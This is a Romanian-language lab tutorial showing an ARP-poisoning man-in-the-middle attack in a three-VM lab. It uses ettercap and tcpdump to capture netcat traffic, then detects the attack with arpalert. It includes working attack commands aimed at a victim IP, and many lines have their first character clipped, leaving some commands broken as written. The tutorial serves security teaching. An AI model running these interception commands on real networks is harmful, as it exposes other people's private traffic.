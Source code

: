 # Man In The Middle

Atacul de tip *Man-in-the-middle* este unul dintre cele mai periculoase, pentru că face imposibilă confidențialitatea datelor.

În exemplul curent, vom folosi 3 entitati:
- sistemul `host` (IP: 192.168.56.1)
- mașina virtuală `tom` (IP: 192.168.56.101)
- mașina virtuală `jerry` (IP: 192.168.56.103)

IP-urile ar putea să difere.
Le puteți afla foarte ușor utilizând următoarea comandă (rulată pe fiecare sistem în parte):

``` shell
ip a sh
```

Rezultatul final al exercițiului va arăta cum `tom` va putea vedea datele necriptate trimise între `jerry` și `host`.

Pentru simplitate, accesul la mașina `tom` se va realiza prin `ssh` folosind credențialele `student:student`:

``` shell
ssh student@192.168.56.101 # folosiți parola student
```

Ar fi indicat să deschideți două asemenea sesiuni.

## Instalare ettercap

Utilitarul `ettercap` va fi folosit pentru a realiza atacul.
comanda de instalare este:

``` shell
sudo apt install ettercap-text-only
```

## Lansare atac

tacul se lansează în execuție folosind sesiunea `ssh` către `tom`:

``` shell
sudo ettercap -T -Q -i enp0s8 -M arp /192.168.56.103// /// # IP-ul este cel al stației jerry
```

in acest punct în colo nu vom mai folosi această fereastră, însă nu o vom inchide.

poi, folosind a doua conexiune `ssh` deschisă către `tom`, folosim comanda:

``` shell
sudo tcpdump -i enp0s8 -s 65535 -X src 192.168.56.103
```

ceastă comandă va afișa conținutul pachetelor interceptate de `tom`.
ondiția este ca ele să aibă ca sursă stația `jerry` (IP: 192.168.56.103).
n această fereastră vom vizualiza rezultatele finale ale exercițiului.

## jerry si host

tația `jerry` vrea să comunice cu `host`.

n acest sens, `host` va deschide portul `1667` și va astepta mesaje.
entru a deschide acest port, se va folosi următoarea comandă executată pe stația `host`:

``` shell
udo nc -nlvp 1667
```

ezultatul ar trebui să fie:

``` shell
 sudo nc -nlvp 1667
istening on 0.0.0.0 1667
```

cum, `jerry` va trebui să se conecteze la acest port, și va executa:

``` shell
c -nv 192.168.56.1 # IP-ul este cel al stației host, de pe adaptorul vboxnet0
```

ezultatul pe stația `jerry` este:

``` shell
 nc -nv 192.168.56.1 1667
onnection to 192.168.56.1 1667 port [tcp/*] succeeded!

```

n timp ce pe stația `host` avem:

``` shell
 sudo nc -nlvp 1667
istening on 0.0.0.0 1667
onnection received on 192.168.56.103 59386

```

n acest moment, stațiile `jerry` și `host` comunică printr-un canal de comunicație necriptat.
ai mult, vom demonstra cum `tom` poate vedea traficul în clar.

## Interceptare și vizualizare mesaje

e pe stația `jerry`, prin conexiunea deschisă de utilitarul `nc`, trimiteti un mesaj text:

``` shell
 nc -nv 192.168.56.1 1667
onnection to 192.168.56.1 1667 port [tcp/*] succeeded!
essage from jerry to host

```

esajul va fi primit pe stația `host`:

``` shell
 sudo nc -nlvp 1667
istening on 0.0.0.0 1667
onnection received on 192.168.56.103 59386
essage from jerry to host

```

nsă consultați și fereastra asociată cu cea de a doua conexiune `ssh` către stația `tom`.
rintre pachetele capturate, veți observa și ceva similar cu:

``` shell
6:17:10.906652 IP 192.168.56.103.ssh > long.33048: Flags [P.], seq 1872:1908, ack 1873, win 724, options [nop,nop,TS val 2275653136 ecr 3222231080], length 36
0x0000:  4510 0058 c4c5 4000 4006 8411 c0a8 3867  E..X..@.@.....8g
0x0010:  c0a8 3801 0016 8118 6079 b294 56a4 8b21  ..8.....`y..V..!
0x0020:  8018 02d4 7d95 0000 0101 080a 87a3 b610  ....}...........
0x0030:  c00f 5828 3aeb 1da3 d7b9 98ad 6074 2bf2  ..X(:.......`t+.
0x0040:  796d bac0 0ccd cf76 34ad fd29 d3bc 3915  ym.....v4..)..9.
0x0050:  2db2 363a 896b a6b0                      -.6:.k..
6:17:11.003154 IP 192.168.56.103.59386 > long.1667: Flags [P.], seq 27:54, ack 1, win 457, options [nop,nop,TS val 2275653240 ecr 3222210027], length 27
0x0000:  4500 004f a305 4000 4006 a5ea c0a8 3867  E..O..@.@.....8g
0x0010:  c0a8 3801 e7fa 0683 9db6 fb52 21a4 5eca  ..8........R!.^.
0x0020:  8018 01c9 8bfc 0000 0101 080a 87a3 b678  ...............x
0x0030:  c00f 05eb 6d65 7373 6167 6520 6672 6f6d  ....message.from
0x0040:  206a 6572 7279 2074 6f20 686f 7374 0a    .jerry.to.host.
6:17:11.003160 IP 192.168.56.103.ssh > long.33048: Flags [P.], seq 1908:1944, ack 1909, win 724, options [nop,nop,TS val 2275653240 ecr 3222231184], length 36
0x0000:  4510 0058 c4c6 4000 4006 8410 c0a8 3867  E..X..@.@.....8g
0x0010:  c0a8 3801 0016 8118 6079 b2b8 56a4 8b45  ..8.....`y..V..E
0x0020:  8018 02d4 d9de 0000 0101 080a 87a3 b678  ...............x
0x0030:  c00f 5890 6b09 e2d8 fa76 d87a 918b d087  ..X.k....v.z....
0x0040:  cca7 a9c8 c750 56f0 48d2 94e9 72ed 42de  .....PV.H...r.B.
0x0050:  0c44 e6c2 01c7 3b30                      .D....;0

```

Observați mesajul `message from jerry to host` în clar.

### IDS

Pentru a detecta astfel de atacuri, putem folosi utilitarul `arpalert`.
Acest utilitar se instalează folosind următoarea comandă pe stația `jerry`:


``` shell
sudo apt install arpalert
```

Acest utilitar trebuie lansat în executie *înainte ca atacul de tip Arp Poisoning* să aibă loc.
Lansarea acestuia în execuție pe stația `jerry` se face folosind:

``` shell
sudo arpalert -i enp0s8
```

După lansarea atacului în execuție de pe stația `tom`, utilitarul `arpalert` va afișa următorul output:

``` shell
$ sudo arpalert -i enp0s8
Dec  6 16:42:16 arpalert: Selected device: enp0s8
Dec  6 16:42:20 arpalert: seq=1, mac=08:00:27:a5:62:88, ip=192.168.56.101, reference=192.168.56.100, type=ip_change, dev=enp0s8, vendor="PCS Systemtechnik GmbH"
Dec  6 16:42:21 arpalert: seq=78, mac=08:00:27:a5:62:88, ip=192.168.56.101, type=flood, dev=enp0s8, vendor="PCS Systemtechnik GmbH"
Dec  6 16:42:26 arpalert: seq=79, mac=08:00:27:a5:62:88, ip=192.168.56.100, reference=192.168.56.101, type=ip_change, dev=enp0s8, vendor="PCS Systemtechnik GmbH"
```

Cu alte cuvinte, `arpalert` a observat o schimbare în ceea ce privește adresele MAC din rețea și alertează acest lucru.

## Concluzii

În exemplul curent, stația `tom` a fost capabilă să intercepteze mesaje trimise de `jerry` către `host`.
Acest lucru a fost posibil prin procedeul numit `arp poisoning`, ce a fost posibil datorită configurației de rețea în care se află stațiile.
Atacul în sine se cheama *Man-in-the-middle* și are ca efect afectarea confidențialității datelor.

Acest tutorial ar trebui să exemplifice concret motivul pentru care `HTTPS` este util, în detrimentul `HTTP`.
